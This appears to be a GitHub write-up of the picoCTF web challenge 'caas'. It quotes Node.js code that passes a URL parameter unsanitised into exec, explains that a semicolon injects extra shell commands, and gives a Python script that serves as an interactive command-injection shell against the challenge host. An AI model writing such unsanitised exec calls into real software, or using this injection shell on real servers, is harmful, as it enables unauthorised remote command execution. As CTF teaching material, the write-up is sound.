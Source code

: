 # caas 
## picoctf web

[solve.py](solve.py)


### Its a web challenge from PicoCTF
We got a webpage with a input field which do cowsay commad with input value when input event is triggered.

## Vulnerable Code

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
 ```
 
 Here we can see exec is used which is one of the dangerous function and other factor is there is no input sanitation are used if a user wants to execute system commmads it becomes easy.

## POC

As we know about the vuln we can put a semi-colan ```;``` to gain arbitrary command execution

## Exploitaion

A simple python script using cmd module
```python
import requests
import cmd

url = "https://caas.mars.picoctf.net/cowsay/hi;"

class Caas(cmd.Cmd):
	prompt = "(caas) => "

	def __init__(self):
		super(Caas, self).__init__()
		self.url = url 
		self.completedefault = None
	def default(self, args):
		if args in ['exit', 'EXIT', 'quit', 'QUIT']:
			exit()
		r = requests.get(self.url+str(args))
		print(r.text)

if __name__=='__main__':
	Caas().cmdloop()
```
